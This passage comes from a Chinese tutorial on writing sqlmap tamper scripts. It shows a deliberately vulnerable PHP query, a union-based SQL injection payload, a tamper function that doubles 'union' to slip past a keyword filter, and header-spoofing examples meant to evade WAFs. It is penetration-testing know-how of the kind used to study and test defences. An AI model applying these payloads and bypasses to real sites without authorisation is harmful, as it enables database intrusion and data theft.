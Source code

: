 +   tamper()

返回处理后的 payload

例如服务器上有这么几行代码

```php
$id = trim($POST($id),'union');
$sql="SELECT * FROM users WHERE id='$id'";
```

而我们的payload为

```
-8363'  union select null -- -
```

这里union被过滤掉了，将导致payload不能正常执行，那么就可以编写这样的tamper

```python
def tamper(payload, **kwargs):
    return payload.replace('union','uniounionn')
```

保存为replaceunion.py，放到sqlmap/tamper/下

执行的时候带上 --tamper=replaceunion 的参数，就可以绕过该过滤规则

[官方tamper](https://blog.csdn.net/hxsstar/article/details/22782627)

+   dependencies()

声明脚本的适用/不适用范围，可为空

```python
sqlmap/tamper/echarunicodeencode.py

from lib.core.common import singleTimeWarnMessage

def dependencies():
singleTimeWarnMessage("tamper script '%s' is only meant to be run against ASP or ASP.NET web applications" % os.path.basename(__file__).split(".")[0])

# singleTimeWarnMessage() 用于在控制台中打印出警告信息
```

+   kwargs

在官方提供的47个tamper脚本中，kwargs参数只被使用了两次，两次都只是更改了http-header，这里以其中一个为例进行简单说明

```
# sqlmap/tamper/vanrish.py

def tamper(payload, **kwargs):
    headers = kwargs.get("headers", {})
    headers["X-originating-IP"] = "127.0.0.1"
    return payload
```

这个脚本是为了更改 X-originating-IP，以绕过WAF，另一个 kwargs 的使用出现于 xforwardedfor.py，也是为了改 header 以绕过 waf
